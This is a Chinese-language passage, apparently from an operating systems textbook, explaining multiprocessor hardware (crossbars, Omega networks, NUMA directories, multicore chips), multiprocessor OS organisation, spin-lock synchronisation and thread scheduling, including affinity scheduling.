每一个高速缓存块或者被标记为只读（在这种情况下，它可以同时存在于多个高速缓存中），或者标记为读写（在这种情况下，它不能在其他高速缓存中存在）。如果CPU试图在一个或多个远程高速缓存中写入一个字，总线硬件检测到写，并把一个信号放到总线上通知所有其他的高速缓存。如果其他高速缓存有个“干净”的副本，也就是同存储器内容完全一样的副本，那么它们可以丢弃该副本并让写者在修改之前从存储器取出高速缓存块。如果某些其他高速缓存有“脏”（被修改过）副本，它必须在处理写之前把数据写回存储器或者把它通过总线直接传送到写者上。高速缓存这一套规则被称为高速缓存一致性协议，它是诸多协议之一。
还有另一种可能性就是图8-2c中的设计，在这种设计中每个CPU不止有一个高速缓存，还有一个本地的私有存储器，它通过一条专门的（私有）总线访问。为了优化使用这一配置，编译器应该把所有程序的代码、字符串、常量以及其他只读数据、栈和局部变量放进私有存储器中。而共享存储器只用于可写的共享变量。在多数情况下，这种仔细的放置会极大地减少总线流量，但是这样做需要编译器的积极配合。
2.使用交叉开关的UMA多处理机
即使有最好的高速缓存，单个总线的使用还是把UMA多处理机的数量限制在16至32个CPU。要超过这个数量，需要不同类型的互连网络。连接n个CPU到k个存储器的最简单的电路是交叉开关，参见图8-3。交叉开关在电话交换系统中已经采用了几十年，用于把一组进线以任意方式连接到一组出线上。
水平线（进线）和垂直线（出线）的每个相交位置上是一个交叉点（crosspoint）。交叉点是一个以电子方式开关的小开关，具体取决于水平线和垂直线是否需要连接。在图8-3a中我们看到有三个交叉点同时闭合，允许（CPU，存储器）对（010，000）、（101，101）和（110，010）同时连接。其他的连接也是可能的。事实上，组合的数量等于象棋盘上8个棋子安全放置方式的数量（8皇后问题）。
交叉开关最好的一个特性是它是一个非阻塞网络，即不会因有些交叉点或连线已经被占据了而拒绝连接（假设存储器模块自身是可用的）。而且并不需要预先的规划。即使已经设置了7个任意的连接，还有可能把剩余的CPU连接到剩余的存储器上。
当然，当两个CPU同时试图访问同一个模块的时候，对内存的争夺还是可能的。不过，通过将内存分为n个单元，与图8-2的模型相比，这样的争夺概率可以降至1/n。
交叉开关最差的一个特性是，交叉点的数量以n2 方式增长。若有1000个CPU和1000个存储器我们就需要一百万个交叉点。这样大数量的交叉开关是不可行的。不过，无论如何对于中等规模的系统而言，交叉开关的设计是可用的。
3.使用多级交换的UMA多处理机
有一种完全不同的、基于简单2×2开关的多处理机设计，参见图8-4a。这个开关有两个输入和两个输出。到达任意一个输入线的消息可以被交换至任意一个输出线上。就我们的目标而言，消息可由四个部分组成，参见图8-4b。Module（模块）域指明使用哪个存储器。Address（地址）域指定在模块中的地址。Opcode（操作码）给定了操作，如READ或WRITE。最后，在可选的Value（值）域中可包含一个操作数，比如一个要被WRITE写入的32位字。该开关检查Module域并利用它确定消息是应该送给X还是发送给Y。
这个2×2开关可有多种使用方式，用以构建大型的多级交换网络（Adams等人，1987；Bhuyan等人，1989；Kuman和Reddy，1987）。有一种是简单经济的Omega网络，见图8-5。这里采用了12个开关，把8个CPU连接到8个存储器上。推而广之，对于n个CPU和n个存储器，我们将需要log2 n级，每级n/2个开关，总数为(n/2)log2 n个开关，比n2 个交叉点要好得多，特别是当n值很大时。
Omega网络的接线模式常被称作全混洗（perfect shuffle），因为每一级信号的混合就像把一副牌分成两半，然后再把牌一张张混合起来。接着看看Omega网络是如何工作的，假设CPU 011打算从存储器模块110读取一个字。CPU发送READ消息给开关1D，它在Module域包含110。1D开关取110的首位（最左位）并用它进行路由处理。0路由到上端输出，而1的路由到下端，由于该位为1，所以消息通过低端输出被路由到2D。
所有的第二级开关，包括2D，取用第二个比特位进行路由。这一位还是1，所以消息通过低端输出转发到3D。在这里对第三位进行测试，结果发现是0。于是，消息送往上端输出，并达到所期望的存储器110。该消息的路径在图8-5中由字母a标出。
在消息通过交换网络之后，模块号的左端的位就不再需要了。它们可以有很好的用途，可以用来记录入线编号，这样，应答消息可以找到返回路径。对于路径a，入线编号分别是0（向上输入到1D）、1（低输入到2D）和1（低输入到3D）。使用011作为应答路由，只要从右向左读出每位即可。
在上述这一切进行的同时，CPU 001需要往存储器001里写入一个字。这里发生的情况与上面的类似，消息分别通过上、上、下端输出路由，由字母b标出。当消息到达时，从Module域读出001，代表了对应的路径。由于这两个请求不使用任何相同的开关、连线或存储器模块，所以它们可以并行工作。
现在考虑如果CPU 000同时也请求访问存储器模块000会发生什么情况。这个请求会与CPU 001的请求在开关3A处发生冲突。它们中的一个就必须等待。和交叉开关不同，Omega网络是一种阻塞网络，并不是每组请求都可被同时处理。冲突可在一条连线或一个开关中发生，也可在对存储器的请求和来自存储器的应答中产生。
显然，很有必要在多个模块间均匀地分散对存储器的引用。一种常用的技术是把低位作为模块号。例如，考虑一台经常访问32位字的计算机中面向字节的地址空间，低位通常是00，但接下来的3位会均匀地分布。将这3位作为模块号，连续的字会放在连续的模块中。而连续字被放在不同模块里的存储器系统被称作交叉（interleaved）存储器系统。交叉存储器将并行运行的效率最大化了，这是因为多数对存储器的引用是连续编址的。设计非阻塞的交换网络也是有可能的，在这种网络中，提供了多条从每个CPU到每个存储器的路径，从而可以更好地分散流量。
4.NUMA多处理机
单总线UMA多处理机通常不超过几十个CPU，而交叉开关或交换网络多处理机需要许多（昂贵）的硬件，所以规模也不是那么大。要想超过100个CPU还必须做些让步。通常，一种让步就是所有的存储器模块都具有相同的访问时间。这种让步导致了前面所说的NUMA多处理机的出现。像UMA一样，这种机器为所有的CPU提供了一个统一的地址空间，但与UMA机器不同的是，访问本地存储器模块快于访问远程存储器模块。因此，在NUMA机器上运行的所有UMA程序无须做任何改变，但在相同的时钟速率下其性能不如UMA机器上的性能。
所有NUMA机器都具有以下三种关键特性，它们使得NUMA机器与其他多处理机相区别：
1)具有对所有CPU都可见的单个地址空间。
2)通过LOAD和STORE指令访问远程存储器。
3)访问远程存储器慢于访问本地存储器。
在对远程存储器的访问时间不被隐藏时（因为没有高速缓存），系统被称为NC-NUMA（No Cache NUMA，无高速缓存NUMA）。在有一致性高速缓存时，系统被称为CC-NUMA（Cache-Coherent NUMA，高速缓存一致NUMA）。
目前构造大型CC-NUMA多处理机最常见的方法是基于目录的多处理机（directory-based multiprocessor）。其基本思想是，维护一个数据库来记录高速缓存行的位置及其状态。当一个高速缓存行被引用时，就查询数据库找出高速缓存行的位置以及它是“干净”的还是“脏”（被修改过）的。由于每条访问存储器的指令都必须查询这个数据库，所以它必须配有极高速的专用硬件，从而可以在一个总线周期的几分之一内作出响应。
要使基于目录的多处理机的想法更具体，让我们考虑一个简单的（假想）例子，一个256个节点的系统，每个节点包括一个CPU和通过局部总线连接到CPU上的16MB的RAM。整个存储器有232 字节，被划分成226 个64字节大小的高速缓存行。存储器被静态地在节点间分配，节点0是0～16M，节点1是16～32M，以此类推。节点通过互连网络连接，参见图8-6a。每个节点还有用于构成其224 字节存储器的218 个64字节高速缓存行的目录项。此刻，我们假定一行最多被一个高速缓存使用。
为了了解目录是如何工作的，让我们跟踪引用了一个高速缓存行的发自CPU 20的LOAD指令。首先，发出该指令的CPU把它交给自己的MMU，被翻译成物理地址，比如说，0x24000108。MMU将这个地址拆分为三个部分，如图8-6b所示。这三个部分按十进制是节点36、第4行和偏移量8。MMU看到引用的存储器字来自节点36，而不是节点20，所以它把请求消息通过互连网络发送到该高速缓存行的的主节点（home node）36上，询问行4是否被高速缓存，如果是，高速缓存在何处。
当请求通过互连网络到达节点36时，它被路由至目录硬件。硬件检索其包含218 个表项的目录表（其中的每个表项代表一个高速缓存行）并解析到项4。从图8-6c中，我们可以看到该行没有被高速缓存，所以硬件从本地RAM中取出第4行，送回给节点20，更新目录项4，指出该行目前被高速缓存在节点20处。
现在来考虑第二个请求，这次访问节点36的第2行。在图8-6c中，我们可以看到这一行在节点82处被高速缓存。此刻硬件可以更新目录项2，指出该行现在在节点20上，然后送一条消息给节点82，指示把该行传给节点20并且使其自身的高速缓存无效。注意，即使一个所谓“共享存储器多处理机”，在下层仍然有大量的消息传递。
让我们顺便计算一下有多少存储器单元被目录占用。每个节点有16 MB的RAM，并且有218 个9位的目录项记录该RAM。这样目录上的开支大约是9×218 位除以16 MB，即约1.76%，一般而言这是可接受的（尽管这些都是高速存储器，会增加成本）。即使对于32字节的高速缓存行，开销也只有4%。至于128字节的高速缓存行，它的开销不到1%。
该设计有一个明显的限制，即一行只能被一个节点高速缓存。要想允许一行能够在多个节点上被高速缓存，我们需要某种对所有行定位的方法，例如，在写操作时使其无效或更新。要允许同时在若干节点上进行高速缓存，有几种选择方案，不过对它们的讨论已超出了本书的范围。
5.多核芯片
随着芯片制造技术的发展，晶体管的体积越来越小，从而有可能将越来越多的晶体管放入一个芯片中。这个基于经验的发现通常称为摩尔定律（Moore's Law），得名于首次发现该规律的Intel公司创始人之一Gordon Moore。Intel Core 2 Duo系列芯片已包含了3亿数量级的晶体管。
随之一个显而易见的问题是：“你怎么利用这些晶体管？”按照我们在第1.3.1小节的讨论，一个选择是给芯片添加数兆字节的高速缓存。这个选择是认真的，带有4兆字节片上高速缓存的芯片现在已经很常见，并且带有更多片上高速缓存的芯片也即将出现。但是到了某种程度，再增加高速缓存的大小只能将命中率从99%提高到99.5%，而这样的改进并不能显著提升应用的性能。
另一个选择是将两个或者多个完整的CPU，通常称为核（core），放到同一个芯片上（技术上来说是同一个小硅片）。双核和四核的芯片已经普及，八十核的芯片已经被制造出来，而带有上百个核的芯片也即将出现。
虽然CPU可能共享高速缓存或者不共享（如图1-8所示），但是它们都共享内存。考虑到每个内存字总是有惟一的值，这些内存是一致的。特殊的硬件电路可以确保在一个字同时出现在两个或者多个的高速缓存中的情况下，当其中某个CPU修改了该字，所有其他高速缓存中的该字都会被自动地并且原子性地删除来确保一致性。这个过程称为窥探（snooping）。
这样设计的结果是多核芯片就相当于小的多处理机。实际上，多核芯片时常被称为片级多处理机（Chip-level MultiProcessors，CMP）。从软件的角度来看，CMP与基于总线的多处理机和使用交换网络的多处理机并没有太大的差别。不过，它们还是存在着若干的差别。例如，对基于总线的多处理机，每个CPU拥有自己的高速缓存，如图8-2b以及图1-8b的AMD设计所示。在图1-8a所示的Intel使用的共享高速缓存的设计并没有出现在其他的多处理机中。共享二级高速缓存会影响性能。如果一个核需要很多高速缓存空间，而另一个核不需要，这样的设计允许它们各自使用所需的高速缓存。但另一方面，共享高速缓存也让一个贪婪的核损害其他核的性能成为了可能。
CMP与其他更大的多处理机之间的另一个差异是容错。因为CPU之间的连接非常紧密，一个共享模块的失效可能导致许多CPU同时出错。而这样的情况在传统的多处理机中是很少出现的。
除了所有核都是对等的对称多核芯片之外，还有一类多核芯片被称为片上系统（system on a chip）。这些芯片含有一个或者多个主CPU，但是同时还包含若干个专用核，例如视频与音频解码器、加密芯片、网络接口等。这些核共同构成了完整的片上计算机系统。
正如过去已经发生的，硬件的发展常常领先于软件。多核的时代已经来临，但是我们还不具备为它们编写应用程序的能力。现有的编程语言并不适合编写高度并行的代码，同时适用的编译器和调试工具还很匮乏。几乎没有几个程序员有编写并行程序的经验，而大部分程序员对于如何将工作划分为若干可以并行执行的块（package）知之甚少。同步、消除竞争、避免死锁成为了程序员的噩梦，同时也影响到了性能。信号量（semaphore）并不能解决问题。除了这些问题，什么样的应用真的需要使用数百个核尚不明确。自然语言语音识别可能需要大量的计算能力，但这里的问题并不是缺少时钟周期，而是缺少可行的算法。简而言之，或许硬件开发人员正在发布软件开发人员不知道如何使用而用户也并不需要的产品。
让我们从对多处理机硬件的讨论转到多处理机软件，特别是多处理机操作系统上来。这里有各种可能的方法。接下来将讨论其中的三种。需要强调的是所有这些方法除了适用于多核系统之外，同样适用于包含多个分离CPU的系统。
1.每个CPU有自己的操作系统
组织一个多处理机操作系统的可能的最简单的方法是，静态地把存储器划分成和CPU一样多的各个部分，为每个CPU提供其私有存储器以及操作系统的各自私有副本。实际上n个CPU以n个独立计算机的形式运行。这样做一个明显的优点是，允许所有的CPU共享操作系统的代码，而且只需要提供数据的私有副本，如图8-7所示。
这一机制比有n个分离的计算机要好，因为它允许所有的机器共享一套磁盘及其他的I/O设备，它还允许灵活地共享存储器。例如，即便使用静态内存分配，一个CPU也可以获得极大的一块内存，从而高效地执行代码。另外，由于生产者能够直接把数据写入存储器，从而使得消费者从生产者写入的位置取出数据，因此进程之间可以高效地通信。况且，从操作系统的角度看，每个CPU都有自己的操作系统非常自然。
值得提及该设计看来不明显的四个方面。首先，在一个进程进行系统调用时，该系统调用是在本机的CPU上被捕获并处理的，并使用操作系统表中的数据结构。
其次，因为每个操作系统都有自己的表，那么它也有自己的进程集合，通过自身调度这些进程。这里没有进程共享。如果一个用户登录到CPU 1，那么他的所有进程都在CPU 1上运行。因此，在CPU 2有负载运行而CPU 1空载的情形是会发生的。
第三，没有页面共享。会出现如下的情形：在CPU2不断地进行页面调度时CPU 1却有多余的页面。由于内存分配是固定的，所以CPU 2无法向CPU 1借用页面。
第四，也是最坏的情形，如果操作系统维护近期使用过的磁盘块的缓冲区高速缓存，每个操作系统都独自进行这种维护工作，因此，可能出现某一修改过的磁盘块同时存在于多个缓冲区高速缓存的情况，这将会导致不一致性的结果。避免这一问题的惟一途径是，取消缓冲区高速缓存。这样做并不难，但是会显著降低性能。
由于这些原因，上述模型已很少使用，尽管在早期的多处理机中它一度被采用，那时的目标是把已有的操作系统尽可能快地移植到新的多处理机上。
2.主从多处理机
图8-8中给出的是第二种模型。在这种模型中，操作系统的一个副本及其数据表都在CPU 1上，而不是在其他所有CPU上。为了在该CPU 1上进行处理，所有的系统调用都重定向到CPU 1上。如果有剩余的CPU时间，还可以在CPU 1上运行用户进程。这种模型称为主从模型（master-slave），因为CPU 1是主CPU，而其他的都是从属CPU。
主从模型解决了在第一种模型中的多数问题。有单一的数据结构（如一个链表或者一组优先级链表）用来记录就绪进程。当某个CPU空闲下来时，它向CPU 1上的操作系统请求一个进程运行，并被分配一个进程。这样，就不会出现一个CPU空闲而另一个过载的情形。类似地，可在所有的进程中动态地分配页面，而且只有一个缓冲区高速缓存，所以决不会出现不一致的情形。
这个模型的问题是，如果有很多的CPU，主CPU会变成一个瓶颈。毕竟，它要处理来自所有CPU的系统调用。如果全部时间的10%用来处理系统调用，那么10个CPU就会使主CPU饱和，而20个CPU就会使主CPU彻底过载。可见，这个模型虽然简单，而且对小型多处理机是可行的，但不能用于大型多处理机。
3.对称多处理机
我们的第三种模型，即对称多处理机（Symmetric MultiProcessor，SMP），消除了上述的不对称性。在存储器中有操作系统的一个副本，但任何CPU都可以运行它。在有系统调用时，进行系统调用的CPU陷入内核并处理系统调用。图8-9是对SMP模式的说明。
这个模型动态地平衡进程和存储器，因为它只有一套操作系统数据表。它还消除了主CPU的瓶颈，因为不存在主CPU；但是这个模型也带来了自身的问题。特别是，当两个或更多的CPU同时运行操作系统代码时，就会出现灾难。想象有两个CPU同时选择相同的进程运行或请求同一个空闲存储器页面。处理这些问题的最简单方法是在操作系统中使用互斥信号量（锁），使整个系统成为一个大临界区。当一个CPU要运行操作系统时，它必须首先获得互斥信号量。如果互斥信号量被锁住，就得等待。按照这种方式，任何CPU都可以运行操作系统，但在任一时刻只有一个CPU可运行操作系统。
这个模型是可以工作的，但是它几乎同主从模式一样糟糕。同样假设，如果所有时间的10%花费在操作系统内部。那么在有20个CPU时，会出现等待进入的CPU长队。幸运的是，比较容易进行改进。操作系统中的很多部分是彼此独立的。例如，在一个CPU运行调度程序时，另一个CPU则处理文件系统的调用，而第三个在处理一个缺页异常，这种运行方式是没有问题的。
这一事实使得把操作系统分割成互不影响的临界区。每个临界区由其互斥信号量保护，所以一次只有一个CPU可执行它。采用这种方式，可以实现更多的并行操作。而某些表格，如进程表，可能恰巧被多个临界区使用。例如，在调度时需要进程表，在系统fork调用和信号处理时也都需要进程表。多临界区使用的每个表格，都需要有各自的互斥信号量。通过这种方式，可以做到每个临界区在任一个时刻只被一个CPU执行，而且在任一个时刻每个临界表（critical table）也只被一个CPU访问。
大多数的现代多处理机都采用这种安排。为这类机器编写操作系统的困难，不在于其实际的代码与普通的操作系统有多大的不同，而在于如何将其划分为可以由不同的CPU并行执行的临界区而互不干扰，即使以细小的、间接的方式。另外，对于被两个或多个临界区使用的表必须通过互斥信号量分别加以保护，而且使用这些表的代码必须正确地运用互斥信号量。
更进一步，必须格外小心地避免死锁。如果两个临界区都需要表A和表B，其中一个首先申请A，另一个首先申请B，那么迟早会发生死锁，而且没有人知道为什么会发生死锁。理论上，所有的表可以被赋予整数值，而且所有的临界区都应该以升序的方式获得表。这一策略避免了死锁，但是需要程序员非常仔细地考虑每个临界区需要哪个表，以便按照正确的次序安排请求。
由于代码是随着时间演化的，所以也许有个临界区需要一张过去不需要的新表。如果程序员是新接手工作的，他不了解系统的整个逻辑，那么可能只是在他需要的时候获得表，并且在不需要时释放掉。尽管这看起来是合理的，但是可能会导致死锁，即用户会觉察到系统被凝固住了。要做正确并不容易，而且要在程序员不断更换的数年时间之内始终保持正确性太困难了。
在多处理机中CPU经常需要同步。这里刚刚看到了内核临界区和表被互斥信号量保护的情形。现在让我们仔细看看在多处理机中这种同步是如何工作的。正如我们将看到的，它远不是那么无足轻重。
开始讨论之前，还需要引入同步原语。如果一个进程在单处理机（仅含一个CPU）中需要访问一些内核临界表的系统调用，那么内核代码在接触该表之前可以先禁止中断。然后它继续工作，在相关工作完成之前，不会有任何其他的进程溜进来访问该表。在多处理机中，禁止中断的操作只影响到完成禁止中断操作的这个CPU，其他的CPU继续运行并且可以访问临界表。因此，必须采用一种合适的互斥信号量协议，而且所有的CPU都遵守该协议以保证互斥工作的进行。
任何实用的互斥信号量协议的核心都是一条特殊指令，该指令允许检测一个存储器字并以一种不可见的操作设置。我们来看看在图2-22中使用的指令TSL（Test and Set Lock）是如何实现临界区的。正如我们先前讨论的，这条指令做的是，读出一个存储器字并把它存储在一个寄存器中。同时，它对该存储器字写入一个1（或某些非零值）。当然，这需要两个总线周期来完成存储器的读写。在单处理机中，只要该指令不被中途中断，TSL指令就始终照常工作。
现在考虑在一个多处理机中发生的情况。在图8-10中我们看到了最坏情况的时序，其中存储器字1000，被用作一个初始化为0的锁。第1步，CPU 1读出该字得到一个0。第2步，在CPU 1有机会把该字写为1之前，CPU 2进入，并且也读出该字为0。第3步，CPU 1把1写入该字。第4步，CPU 2也把1写入该字。两个CPU都由TSL指令得到0，所以两者都对临界区进行访问，并且互斥失败。
为了阻止这种情况的发生，TSL指令必须首先锁住总线，阻止其他的CPU访问它，然后进行存储器的读写访问，再解锁总线。对总线加锁的典型做法是，先使用通常的总线协议请求总线，并申明（设置一个逻辑1）已拥有某些特定的总线线路，直到两个周期全部完成。只要始终保持拥有这一特定的总线线路，那么其他CPU就不会得到总线的访问权。这个指令只有在拥有必要的线路和和使用它们的（硬件）协议上才能实现。现代总线有这些功能，但是早期的一些总线不具备，它们不能正确地实现TSL指令。这就是Peterson协议（完全用软件实现同步）会产生的原因（Peterson，1981）。
如果正确地实现和使用TSL，它能够保证互斥机制正常工作。但是这种互斥方法使用了自旋锁（spin lock），因为请求的CPU只是在原地尽可能快地对锁进行循环测试。这样做不仅完全浪费了提出请求的各个CPU的时间，而且还给总线或存储器增加了大量的负载，严重地降低了所有其他CPU从事正常工作的速度。
乍一看，高速缓存的实现也许能够消除总线竞争的问题，但事实并非如此。理论上，只要提出请求的CPU已经读取了锁字（lock word），它就可在其高速缓存中得到一个副本。只要没有其他CPU试图使用该锁，提出请求的CPU就能够用完其高速缓存。当拥有锁的CPU写入一个1到高速缓存并释放它时，高速缓存协议会自动地将它在远程高速缓存中的所有副本失效，要求再次读取正确的值。
问题是，高速缓存操作是在32或64字节的块中进行的。通常，拥有锁的CPU也需要这个锁周围的字。由于TSL指令是一个写指令（因为它修改了锁），所以它需要互斥地访问含有锁的高速缓存块。这样，每一个TSL都使锁持有者的高速缓存中的块失效，并且为请求的CPU取一个私有的、惟一的副本。只要锁拥有者访问到该锁的邻接字，该高速缓存块就被送进其机器。这样一来，整个包含锁的高速缓存块就会不断地在锁的拥有者和锁的请求者之间来回穿梭，导致了比单个读取一个锁字更大的总线流量。
如果能消除在请求一侧的所有由TSL引起的写操作，我们就可以明显地减少这种开销。使提出请求的CPU首先进行一个纯读操作来观察锁是否空闲，就可以实现这个目标。只有在锁看来是空闲时，TSL才真正去获取它。这种小小变化的结果是，大多数的行为变成读而不是写。如果拥有锁的CPU只是在同一个高速缓存块中读取各种变量，那么它们每个都可以以共享只读方式拥有一个高速缓存块的副本，这就消除了所有的高速缓存块传送。当锁最终被释放时，锁的所有者进行写操作，这需要排它访问，也就使远程高速缓存中的所有其他副本失效。在提出请求的CPU的下一个读请求中，高速缓存块会被重新装载。注意，如果两个或更多的CPU竞争同一个锁，那么有可能出现这样的情况，两者同时看到锁是空闲的，于是同时用TSL指令去获得它。只有其中的一个会成功，所以这里没有竞争条件，因为真正的获取是由TSL指令进行的，而且这条指令是原子性的。即使看到了锁空闲，然后立即用TSL指令试图获得它，也不能保证真正得到它。其他CPU可能会取胜，不过对于该算法的正确性来说，谁得到了锁并不重要。纯读出操作的成功只是意味着这可能是一个获得锁的好时机，但并不能确保能成功地得到锁。
另一个减少总线流量的方式是使用著名的以太网二进制指数补偿算法（binary exponential backoff algorithm）（Anderson，1990）。不是采用连续轮询，参考图2-22，而是把一个延迟循环插入轮询之间。初始的延迟是一条指令。如果锁仍然忙，延迟被加倍成为两条指令，然后，四条指令，如此这样进行，直到某个最大值。当锁释放时，较低的最大值会产生快速的响应。但是会浪费较多的总线周期在高速缓存的颠簸上。而较高的最大值可减少高速缓存的颠簸，但是其代价是不会注意到锁如此迅速地成为空闲。二进制指数补偿算法无论在有或无TSL指令前的纯读的情况下都适用。
一个更好的思想是，让每个打算获得互斥信号量的CPU都拥有各自用于测试的私有锁变量，如图8-11所示（Mellor-Crummey和Scott，1991）。有关的变量应该存放在未使用的高速缓存块中以避免冲突。对这种算法的描述如下：给一个未能获得锁的CPU分配一个锁变量并且把它附在等待该锁的CPU链表的末端。在当前锁的持有者退出临界区时，它释放链表中的首个CPU正在测试的私有锁（在自己的高速缓存中）。然后该CPU进入临界区。操作完成之后，该CPU释放锁。其后继者接着使用，以此类推。尽管这个协议有些复杂（为了避免两个CPU同时把它们自己加在链表的末端），但它能够有效工作，而且消除了饥饿问题。具体细节，读者可以参考有关论文。
自旋与切换
到目前为止，不论是连续轮询方式、间歇轮询方式，还是把自己附在进行等候CPU链表中的方式，我们都假定需要加锁的互斥信号量的CPU只是保持等待。有时对于提出请求的CPU而言，只有等待，不存在其他替代的办法。例如，假设一些CPU是空闲的，需要访问共享的就绪链表（ready list）以便选择一个进程运行。如果就绪链表被锁住了，那么CPU就不能够只是决定暂停其正在进行的工作，而去运行另一个进程，因为这样做需要访问就绪链表。CPU必须保持等待直到能够访问该就绪链表。
然而，在另外一些情形中，却存在着别的选择。例如，如果在一个CPU中的某些线程需要访问文件系统缓冲区高速缓存，而该文件系统缓冲区高速缓存正好锁住了，那么CPU可以决定切换至另外一个线程而不是等待。有关是进行自旋还是进行线程切换的问题则是许多研究课题的内容，下面会讨论其中的一部分。请注意，这类问题在单处理机中是不存在的，因为没有另一个CPU释放锁，那么自旋就没有任何意义。如果一个线程试图取得锁并且失败，那么它总是被阻塞，这样锁的所有者有机会运行和释放该锁。
假设自旋和进行线程切换都是可行的选择，则可进行如下的权衡。自旋直接浪费了CPU周期。重复地测试锁并不是高效的工作。不过，切换也浪费了CPU周期，因为必须保存当前线程的状态，必须获得保护就绪链表的锁，还必须选择一个线程，必须装入其状态，并且使其开始运行。更进一步来说，该CPU高速缓存还将包含所有不合适的高速缓存块，因此在线程开始运行的时候会发生很多代价昂贵的高速缓存未命中。TLB的失效也是可能的。最后，会发生返回至原来线程的切换，随之而来的是更多的高速缓存未命中。花费在这两个线程间来回切换和所有高速缓存未命中的周期时间都浪费了。
如果预先知道互斥信号量通常被持有的时间，比如是50µs，而从当前线程切换需要1ms，稍后切换返回还需1ms，那么在互斥信号量上自旋则更为有效。另一方面，如果互斥信号量的平均保持时间是10ms，那就值得忍受线程切换的麻烦。问题在于，临界区在这个期间会发生相当大的变化，所以，哪一种方法更好些呢？
有一种设计是总是进行自旋。第二种设计方案则总是进行切换。而第三种设计方案是每当遇到一个锁住的互斥信号量时，就单独做出决定。在必须做出决定的时刻，并不知道自旋和切换哪一种方案更好，但是对于任何给定的系统，有可能对其所有的有关活动进行跟踪，并且随后进行离线分析。然后就可以确定哪个决定最好及在最好情形下所浪费的时间。这种事后算法（hindsight algorithm）成为对可行算法进行测量的基准评测标准。
已有研究人员对上述这一问题进行了研究（Karlin等人，1989；Karlin等人，1991；Ousterhout，1982）。多数的研究工作使用了这样一个模型：一个未能获得互斥信号量的线程自旋一段时间。如果时间超过某个阈值，则进行切换。在某些情形下，该阈值是一个定值，典型值是切换至另一个线程再切换回来的开销。在另一些情形下，该阈值是动态变化的，它取决于所观察到的等待互斥信号量的历史信息。
在系统跟踪若干最新的自旋时间并且假定当前的情形可能会同先前的情形类似时，就可以得到最好的结果。例如，假定还是1ms切换时间，线程自旋时间最长为2ms，但是要观察实际上自旋了多长时间。如果线程未能获取锁，并且发现在之前的三轮中，平均等待时间为200µs，那么，在切换之前就应该先自旋2ms。但是，如果发现在先前的每次尝试中，线程都自旋了整整2ms，则应该立即切换而不再自旋。更多的细节可以在（Karlin等人，1991）中找到。
在探讨多处理机调度之前，需要确定调度的对象是什么。过去，当所有进程都是单个线程的时候，调度的单位是进程，因为没有其他什么可以调度的。所有的现代操作系统都支持多线程进程，这让调度变得更加复杂。
线程是内核线程还是用户线程至关重要。如果线程是由用户空间库维护的，而对内核不可见，那么调度一如既往的基于单个进程。如果内核并不知道线程的存在，它就不能调度线程。
对内核线程来说，情况有所不同。在这种情况下所有线程均是内核可见的，内核可以选择一个进程的任一线程。在这样的系统中，发展趋势是内核选择线程作为调度单位，线程从属的那个进程对于调度算法只有很少的（乃至没有）影响。下面我们将探讨线程调度，当然，对于一个单线程进程（single-threaded process）系统或者用户空间线程，调度单位依然是进程。
进程和线程的选择并不是调度中的惟一问题。在单处理机中，调度是一维的。惟一必须（不断重复地）回答的问题是：“接下来运行的线程应该是哪一个？”而在多处理机中，调度是二维的。调度程序必须决定哪一个进程运行以及在哪一个CPU上运行。这个在多处理机中增加的维数大大增加了调度的复杂性。
另一个造成复杂性的因素是，在有些系统中所有的线程是不相关的，而在另外一些系统中它们是成组的，同属于同一个应用并且协同工作。前一种情形的例子是分时系统，其中独立的用户运行相互独立的进程。这些不同进程的线程之间没有关系，因此其中的每一个都可以独立调度而不用考虑其他的线程。
后一种情形的例子通常发生在程序开发环境中。大型系统中通常有一些供实际代码使用的包含宏、类型定义以及变量声明等内容的头文件。当一个头文件改变时，所有包含它的代码文件必须被重新编译。通常make程序用于管理开发工作。调用make程序时，在考虑了头文件或代码文件的修改之后，它仅编译那些必须重新编译的代码文件。仍然有效的目标文件不再重新生成。
make的原始版本是顺序工作的，不过为多处理机设计的新版本可以一次启动所有的编译。如果需要10个编译，那么迅速对9个进行调度而让最后一个在很长的时间之后才进行的做法没有多大意义，因为直到最后一个线程完毕之后用户才感觉到工作完成了。在这种情况下，将进行编译的线程看作一组，并在对其调度时考虑到这一点是有意义的。
1.分时
让我们首先讨论调度独立线程的情况。稍后，我们将考虑如何调度相关的线程。处理独立线程的最简单算法是，为就绪线程维护一个系统级的数据结构，它可能只是一个链表，但更多的情况下可能是对应不同优先级一个链表集合，如图8-12a所示。这里16个CPU正在忙碌，有不同优先级的14个线程在等待运行。第一个将要完成其当前工作（或其线程将被阻塞）的CPU是CPU 4，然后CPU 4锁住调度队列（scheduling queue）并选择优先级最高的线程A，如图8-12b所示。接着，CPU 12空闲并选择线程B，参见图8-12c。只要线程完全无关，以这种方式调度是明智的选择并且其很容易高效地实现。
由所有CPU使用的单个调度数据结构分时共享这些CPU，正如它们在一个单处理机系统中那样。它还支持自动负载平衡，因为决不会出现一个CPU空闲而其他CPU过载的情况。不过这一方法有两个缺点，一个是随着CPU数量增加所引起的对调度数据结构的潜在竞争，二是当线程由于I/O阻塞时所引起上下文切换的开销（overhead）。
在线程的时间片用完时，也可能发生上下文切换。在多处理机中它有一些在单处理机中不存在的属性。假设某个线程在其时间片用完时持有一把自旋锁。在该线程被再次调度并且释放该锁之前，其他等待该自旋锁的CPU只是把时间浪费在自旋上。在单处理机中，极少采用自旋锁，因此，如果持有互斥信号量的一个线程被挂起，而另一个线程启动并试图获取该互斥信号量，则该线程会立即被阻塞，这样只浪费了少量时间。
为了避免这种异常情况，一些系统采用智能调度（smart scheduling）的方法，其中，获得了自旋锁的线程设置一个进程范围内的标志以表示它目前拥有了一个自旋锁（Zahorjan等人，1991）。当它释放该自旋锁时，就清除这个标志。这样调度程序就不会停止持有自旋锁的线程，相反，调度程序会给予稍微多一些的时间让该线程完成临界区内的工作并释放自旋锁。
调度中的另一个主要问题是，当所有CPU平等时，某些CPU更平等。特别是，当线程A已经在CPU k上运行了很长一段时间时，CPU k的高速缓存装满了A的块。若A很快重新开始运行，那么如果它在CPU k上运行性能可能会更好一些，因为k的高速缓存也许还存有A的一些块。预装高速缓存块将提高高速缓存的命中率，从而提高了线程的速度。另外，TLB也可能含有正确的页面，从而减少了TLB失效。
有些多处理机考虑了这一因素，并使用了所谓亲和调度（affinity scheduling）（Vaswani和Zahorjan，1991）。其基本思想是，尽量使一个线程在它前一次运行过的同一个CPU上运行。创建这种亲和力（affinity）的一种途径是采用一种两级调度算法（two-level scheduling algorithm）。在一个线程创建时，它被分给一个CPU，例如，可以基于哪一个CPU在此刻有最小的负载。这种把线程分给CPU的工作在算法的顶层进行，其结果是每个CPU获得了自己的线程集。
